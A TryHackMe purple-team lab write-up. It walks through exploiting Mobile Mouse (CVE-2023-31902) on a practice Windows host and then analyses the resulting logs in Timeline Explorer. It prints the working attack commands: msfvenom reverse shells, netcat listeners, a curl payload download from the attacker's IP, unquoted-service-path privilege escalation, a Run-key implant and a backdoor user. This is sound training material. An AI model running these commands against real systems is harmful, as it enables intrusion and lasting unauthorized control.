


*Follow Jom and Terry on their purple teaming adventures, emulating attacks and investigating the leftover artifacts.*

**Difficulty:** Easy

Jom and Terry are members of the TryMouseMe Purple team. In this room, we will emulate the attack and defense of a Windows target. The first section of the room focuses on the Red team and we are given the TTPs we will use to compromise the target. The first TTP is listed below:

# Jom and Terry Go Purple
### Initial Access

| Tactics               | Techniques                                | Procedures                                                                               |
| --------------------- | ----------------------------------------- | ---------------------------------------------------------------------------------------- |
| TA001: Initial access | Exploit Public-Facing Application (T1190) | After finding a vulnerable service, you will get a user shell via remote code execution. |
I began by scanning the target for open ports with nmap, running it with the default scripts and enumerate versions options.

**Command:** `nmap -sC -sV TARGET`

```
root@ip-10-10-195-42:~# nmap -sC -sV -T4 10.10.58.199
Starting Nmap 7.80 ( https://nmap.org ) at 2025-01-19 23:01 GMT
Nmap scan report for 10.10.58.199
Host is up (0.00025s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: MOUSETRAP
|   NetBIOS_Domain_Name: MOUSETRAP
|   NetBIOS_Computer_Name: MOUSETRAP
|   DNS_Domain_Name: MOUSETRAP
|   DNS_Computer_Name: MOUSETRAP
|   Product_Version: 10.0.17763
|_  System_Time: 2025-01-19T23:04:44+00:00
| ssl-cert: Subject: commonName=MOUSETRAP
| Not valid before: 2024-12-08T13:53:36
|_Not valid after:  2025-06-09T13:53:36
|_ssl-date: 2025-01-19T23:05:12+00:00; 0s from scanner time.
9099/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest: 
|     HTTP/1.0 200 OK 
|     Server: Mobile Mouse Server 
|     Content-Type: text/html 
|     Content-Length: 326
|_    <HTML><HEAD><TITLE>Success!</TITLE><meta name="viewport" content="width=device-width,user-scalable=no" /></HEAD><BODY BGCOLOR=#000000><br><br><p style="font:12pt arial,geneva,sans-serif; text-align:center; color:green; font-weight:bold;" >The server running on "MOUSETRAP" was able to receive your request.</p></BODY></HTML>
9999/tcp open  abyss?

MAC Address: 02:B1:4D:EB:30:B7 (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: MOUSETRAP, NetBIOS user: <unknown>, NetBIOS MAC: 02:b1:4d:eb:30:b7 (unknown)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-01-19T23:04:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 202.35 seconds
```

**Open Ports:**
- **135/tcp**: Microsoft Windows RPC
- **139/tcp**: NetBIOS Session Service
- **445/tcp**: Microsoft-DS (potentially SMB)
- **3389/tcp**: Microsoft Terminal Services (RDP)
- **9099/tcp**: Mobile Mouse Server
- **9999/tcp**: Abyss? (unrecognized service)

Nmap identified that port **9099** is running a service called "Mobile Mouse Server". Visiting [machineIP:9099] returns an html page that displays "MOUSETRAP". Since TryHackMe guides us on using **T1190** (Exploit Public-Facing Application) to gain initial access, the "MOUSETRAP" web page seems like a good direction to investigate further. 

After some Google research, I learned that Mobile Mouse is a service that allows you to use your phone as a remote desktop mouse. 

Searching ExploitDB for "Mobile Mouse" returned a Remote Code Execution exploit for it.
TryHackMe has told us to use the SMB version of the exploit instead of the HTTP version. With further research, I found a GitHub page that explains the usage of both versions of the exploit and lists the SMB exploit as V2. The script found earlier on ExploitDB is the HTTP version, so I downloaded V2 found on GitHub to my local machine.

https://github.com/blue0x1/mobilemouse-exploit

**Command:** `wget https://raw.githubusercontent.com/blue0x1/mobilemouse-exploit/refs/heads/main/CVE-2023-31902-v2.py`

The next step is to use metasploit to generate a Windows stageless reverse TCP (x64) shell, which will be passed as an argument to the exploit script.

**Command:** `msfvenom -p windows/x64/shell_reverse_tcp LHOST=LHOST LPORT=5555 -f exe -o shell.exe`


After creating the payload I started a netcat listener on port 5555, which matches the local port specified when generating `shell.exe`.

**Command:** `nc -lvnp 5555`

After starting the listener, I ran the exploit with the command shown in the documentation on the provided GitHub link:

**Command:** `python3 CVE-2023-31902-v2.py --target TARGET --file FILE --lhost LHOST`


I received a connection back from the target and got a shell as the user `purpletom`. The user flag can be found in purpletom's home directory: `C:\Users\purpletom`.


At this point we have successfully completed the first phase of the attack, `TA001: Initial Access` and can now proceed to `TA004: Privilege Escalation`.

### Privilege Escalation

| Tactics                     | Techniques                                     | Procedures                                                               |
| --------------------------- | ---------------------------------------------- | ------------------------------------------------------------------------ |
| TA004: Privilege Escalation | Path Interception by Unquoted Path (T1574.009) | You will then escalate your privileges through an unquoted service path. |

The technique we will use to escalate our privileges exploits a misconfiguration in a service path, where the path contains a directory name that includes the space character, but is missing proper quotation marks around the path. This technique takes advantage of the way Windows interprets these unquoted paths.

For example, if the service path `C:\Program Files\My Services\service.exe` is not enclosed in quotation marks when configured in the Windows Registry, Windows would try to resolve the path in the following order when executing the service:

`C:\Program.exe`
`C:\Program Files\My.exe`
`C:\Program Files\My Services\service.exe` 

An attacker could exploit this by placing a malicious executable called `Program.exe` or `My.exe` in the appropriate directory and it will be resolved to run by Windows before the real `service.exe`.

**SharpUp.exe** is available in `C:\Users\purpletom` and will find unquoted service paths in modifiable directories on the machine for us.

**Command:** `SharpUp.exe - UnquotedServicePath`

```
SharpUp.exe - UnquotedServicePath

=== SharpUp: Running Privilege Escalation Checks ===

=== Services with Unquoted Paths ===
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program' is modifable.
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program Files' is modifable.
        Service 'Mobile Mouse Service' (StartMode: Manual) has executable 'C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe', but 'C:\Program Files (x86)\Mobile Mouse\Mouse' is modifable.

[*] Completed Privesc Checks in 0 seconds
```

SharpUp told us the name of the service is `Mobile Mouse Service`, we can learn more about the permission level that service runs with using the below command.

**Command:** `sc qc "Mobile Mouse Service"`

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Mobile Mouse Service
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Mobile Mouse Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

The SharpUp output shows us that the actual `HelperService.exe` is located at the below path, but it is missing quotation marks:
`C:\Program Files (x86)\Mobile Mouse\Mouse Utilities\HelperService.exe`

This gives us 3 options for where to place and what to name the new executable, since SharpUp found 3 directories that the user `purpletom` can modify.

```
C:\Program
C:\Program Files
C:\Program Files (x86)\Mobile Mouse\Mouse
```

TryHackMe tells us to target the `Mobile Mouse` directory for this technique, so the executable would need to be named `Mouse.exe` and placed in `Mobile Mouse`.

Now we can use metasploit again to create another reverse shell on a different port that the one used for initial access, since it is still in use. We will call it `Mouse.exe` this time. I used `exe-service` this time since the payload will run in place of a service.

**Command:** `msfvenom -p windows/x64/shell_reverse_tcp LHOST=LHOST LPORT=6666 -f exe-service -o Mouse.exe`

I started a python web server on my local machine so we, as purpletom, can download Mouse.exe to the target machine.
**Command:** `python3 -m http.server`

Navigate to `C:\Program Files (x86)\Mobile Mouse` and run the curl command to get the file from the local python server.

**Command:** `curl http://10.6.17.239:8000/Mouse.exe -o Mouse.exe`

We need to start another netcat listener on tour local machine using the port specified when generating Mouse.exe.

**Command:** `nc -lvnp 6666`

And start the Mobile Mouse Service from our shell as purpletom, running Mouse.exe instead of the Mobile Mouse Service.

**Command:** `net start "Mobile Mouse Service"`

After Windows tries to start the service we will receive a connection on the listening port and a new shell as `nt authority\system`.



The root flag can be found on the Administrator's Desktop.


### Persistence

| Tactics            | Techniques                                                                                    | Procedures                                                                                          |
| ------------------ | --------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| TA003: Persistence | Registry Run Keys / Startup Folder (T1547.001)  <br>Create Account: Local Account (T1136.001) | Finally, you will maintain persistence thanks to registry run keys and local user account creation. |

To establish persistence, we will add an entry to the Run key in the `HKEY_CURRENT_USER` registry hive. Programs listed under this key automatically execute when the user logs in. Since we are adding to the Run key using the `SYSTEM user`, the payload (located at `"C:\Windows\Temp\shell.exe"`) will run with admin-level privileges whenever the SYSTEM user logs in. We should specify the registry key name as `shell`. We can achieve this with the following command.

**Command:** `reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v shell /t REG_SZ /d "C:\Windows\Temp\shell.exe"`


We will also create a backdoor user named `terry` to maintain access by using the following command with a password of our choice.

**Command:** `net user terry PASSWORD /add`



We can run `checker.exe`, located on the Administrator's Desktop that will give us the final flag for the red team section if we have successfully set up persistence on the machine.


# Time to Catch Terry

Now we will work as the blue team and investigate the logs generated by the attack we emulated on the red team. We are given two options for tools to investigate the event logs, Timeline Explorer and SysmonView. I tried out both and found Timeline Explorer to be more straight forward and allowed me to quickly spot notable events, so I continued using it for the rest of the room.

**What was the password set for the user created by the attacker for persistence?**

This was the first question I decided to look for. I started by searching for the string `"/add"` because that is used in the command to add a new user. The search returned 2 events where a new user had been added during the attack, their password included in the command.


Once I found this, it was very informative to look at the other events around the time this new user was created. I also filtered and arranged my columns to see all the non-blank entries of the "Executable Info" column. This allowed me to better understand the steps of the attack and find many important events to look into individually.


I tried to find the start of this attack by looking backwards while sorted by time. As I scrolled up from the creation of the new user, I started to see events involving the Mobile Mouse Service and Mouse.exe. Not long before "Mobile Mouse" starts showing up, there is an Invoke-WebRequest event that shows an IP address and an executable file that was transferred to the system. I searched this IP to find all events related to it.


**What is the name of the payload that was shared ?**

**What is the IP attacker’s IP address?**

**What is the full command-line of the executed payload?**

The results of the IP search provide answers to the first few questions, as we are able to see the first command used to share a payload and confirm that the IP address we found earlier was the one to do this.

**What is the full command-line of the tool used to enumerate the privilege escalation vectors?**

**When was this tool executed?**

Scrolling through the given time frame, roughly 10 minutes after the payload from the attacking IP was shared, an executable was run with the argument "audit". This was notable to me, as it seems like an argument likely related to privilege escalation tools. A google search of the name of the executable confirms it is used for enumerating privilege escalation. We are also able to see the time the tool was executed in this event.


**What command was used to transfer the reverse shell binary into the system?**

As I saw earlier, there is an Invoke-WebRequest event where an executable from the attacker's IP is transferred to the system where it is named "Mouse.exe". Looking at this event, we can the the full powershell command that was used.


**What is the full command line value of the process created during the unquoted service path abuse?**

This was the only question that I needed to look at fields other than "Executable Info" and timestamps. I was able to find it by searching for "Mouse.exe", which narrows the events down to 44 records. After which, it was pretty quick to look over the other Payload Data columns where I found the full command.


This was the Payload Data for event 77062 and looking at the events surrounding it, it becomes clear that starting the Mobile Mouse Service is what triggered the privilege escalation. We can wee `whoami` was run before and after starting the service and the user changes from "purpletom" to "NT AUTHORITY\SYSTEM".


**What is the key name used for persistence?**

**What is the target path of the persistence implant by the attacker?**

With the events sorted by time, only a minute after the creation of a new user I saw an event adding to the HKCU registry key. Looking into this event I was able to the full key name and the path to the executable that will give the attacker persistent access. 

